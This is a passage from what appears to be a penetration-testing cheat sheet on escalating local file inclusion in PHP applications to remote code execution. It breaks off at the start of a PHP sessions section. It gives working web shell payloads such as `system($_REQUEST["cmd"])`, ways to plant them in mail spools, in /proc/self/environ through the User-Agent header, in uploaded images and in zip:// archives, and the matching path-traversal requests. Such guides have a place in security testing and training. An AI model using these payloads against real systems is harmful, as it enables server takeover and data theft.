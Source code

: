 Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Via Email <a href="#via-email" id="via-email"></a>

**Send a mail** to a internal account (user@localhost) containing your PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like **`/var/mail/<USERNAME>`** or **`/var/spool/mail/<USERNAME>`**

### Via /proc/\*/fd/\* <a href="#via-proc-fd" id="via-proc-fd"></a>

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be brute forced) and $FD the file descriptor (can be brute forced too)

### Via /proc/self/environ <a href="#via-proc-self-environ" id="via-proc-self-environ"></a>

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload <a href="#via-upload" id="via-upload"></a>

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

Copy

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload <a href="#via-zip-fie-upload" id="via-zip-fie-upload"></a>

Upload a ZIP file containing a PHP shell compressed and access:



```
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

### Via PHP sessions <a href="#via-php-sessions" id="via-php-sessions"></a>

Check if the website use PHP Session (PHPSESSID)
